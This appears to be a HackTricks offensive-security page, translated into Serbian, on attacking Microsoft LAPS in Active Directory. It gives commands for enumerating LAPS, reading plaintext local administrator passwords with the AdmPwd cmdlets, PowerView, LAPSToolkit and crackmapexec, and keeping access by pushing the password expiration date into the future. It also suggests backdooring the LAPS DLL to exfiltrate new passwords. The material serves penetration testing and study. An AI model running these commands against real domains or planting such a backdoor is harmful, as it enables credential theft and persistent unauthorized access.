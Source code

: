 # LAPS

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Osnovne informacije

Local Administrator Password Solution (LAPS) je alat koji se koristi za upravljanje sistemom gde se primenjuju **administrator lozinke**, koje su **jedinstvene, nasumične i često menjane**, na računarima koji su pridruženi domenu. Ove lozinke se čuvaju bezbedno unutar Active Directory-ja i dostupne su samo korisnicima kojima je dozvoljen pristup putem Access Control Lists (ACLs). Bezbednost prenosa lozinke sa klijenta na server je obezbeđena korišćenjem **Kerberos verzije 5** i **Advanced Encryption Standard (AES)**.

Implementacija LAPS-a u objektima računara domena rezultira dodavanjem dve nove atribute: **`ms-mcs-AdmPwd`** i **`ms-mcs-AdmPwdExpirationTime`**. Ovi atributi čuvaju **plain-text administrator lozinku** i **vreme njenog isteka**, redom.

### Provera da li je aktiviran

```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

### Pristup lozinkama LAPS-a

Možete **preuzeti sirovu LAPS politiku** sa `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol`, a zatim koristiti **`Parse-PolFile`** iz paketa [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) da biste konvertirali ovaj fajl u čitljiv format za ljude.

Osim toga, **nativne LAPS PowerShell cmdlet-e** možemo koristiti ako su instalirani na mašini kojoj imamo pristup:

```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

**PowerView** takođe može biti korišćen da bi se saznalo **ko može pročitati lozinku i pročitati je**:

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```

### LAPSToolkit

[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) olakšava enumeraciju LAPS-a sa nekoliko funkcija.\
Jedna od njih je parsiranje **`ExtendedRights`** za **sve računare sa omogućenim LAPS-om**. Ovo će prikazati **grupe** koje su posebno **delegirane za čitanje LAPS lozinki**, a često su to korisnici u zaštićenim grupama.\
Račun koji je pridružen računaru u domenu dobija `Sva proširena prava` nad tim računarom, a ovo pravo daje tom računu mogućnost **čitanja lozinki**. Enumeracija može pokazati korisnički račun koji može čitati LAPS lozinku na računaru. Ovo nam može pomoći da **ciljamo određene AD korisnike** koji mogu čitati LAPS lozinke.

```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```

## **Izbacivanje LAPS lozinki pomoću Crackmapexec-a**

Ako nemate pristup powershell-u, možete zloupotrebiti ovu privilegiju udaljeno putem LDAP-a koristeći Crackmapexec.

```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```

Ovo će izbaciti sve lozinke koje korisnik može pročitati, omogućavajući vam da steknete bolji oslonac sa drugim korisnikom.

## **LAPS Upornost**

### **Datum isteka**

Jednom kada ste administrator, moguće je **dobiti lozinke** i **spriječiti** mašinu da **ažurira** svoju **lozinku** tako što ćete **postaviti datum isteka u budućnost**.

```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

{% hint style="warning" %}
Lozinka će se i dalje resetovati ako **administrator** koristi **`Reset-AdmPwdPassword`** cmdlet; ili ako je omogućena opcija **Do not allow password expiration time longer than required by policy** u LAPS GPO.
{% endhint %}

### Povratna vrata

Izvorni kod za LAPS može se pronaći [ovde](https://github.com/GreyCorbel/admpwd), stoga je moguće ubaciti povratna vrata u kod (unutar metode `Get-AdmPwdPassword` u `Main/AdmPwd.PS/Main.cs` na primer) koja će na neki način **izfiltrirati nove lozinke ili ih negde sačuvati**.

Zatim, samo kompajlirajte novi `AdmPwd.PS.dll` i otpremite ga na mašinu u `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (i promenite vreme izmene).

## Reference

* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
